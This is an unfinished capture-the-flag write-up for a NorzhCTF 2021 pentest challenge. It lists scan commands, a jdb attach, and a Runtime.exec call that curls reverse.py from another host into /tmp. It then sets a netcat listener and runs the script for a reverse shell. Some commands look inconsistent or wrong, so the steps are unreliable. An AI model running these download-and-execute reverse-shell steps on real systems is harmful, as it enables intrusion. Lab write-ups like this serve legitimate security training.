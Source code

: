 # Leet Computer: Pentest 19

### One of the attacker is still in the airport hall, and it seems that he is still connected to the airport wifi ! Get a root shell on its machine to continue your investigation. This challenge will give you access to another network.

My thought process...

1. ```nmap -Pn 10.40.3.230``` This is the ip that pinged us on the Discovery challenge.
   ```port 22 open ssh```
   ```port 8100 open http```
2. ```whatweb 10.40.3.230/8100``` Running Apache & PHP
3. ```telnet 10.40.3.230 8100``` Allows connection
4. *Install jdb*
5. ```jdb attach 10.40.3.230:8100```
6. ```stop in org.apache.logging.log4j.core.config.ConfigurationFileWatcher.isModified```
7. ```print new java.lang.Runtime().exec("sh -c $@|sh . curl 172.16.72.203:8888/reverse.py  -o /tmp/reverse.py")```
8. *Setup Netcat listener*
   ```nc -l 10.40.3.230```
9. ```print new java.lang.Runtime().exec("python3 /tmp/reverse.py")```
10. ```...```


**NOTE:** I did not finish this challenge before the competition ended. However, one of my teammates was able to solve before the competition ended.

Here is a write-up for this challenge by Łukasz Szymański: [Leet Computer](https://szymanski.ninja/en/ctfwriteups/2021/norzhctf2021/leet-computer/)

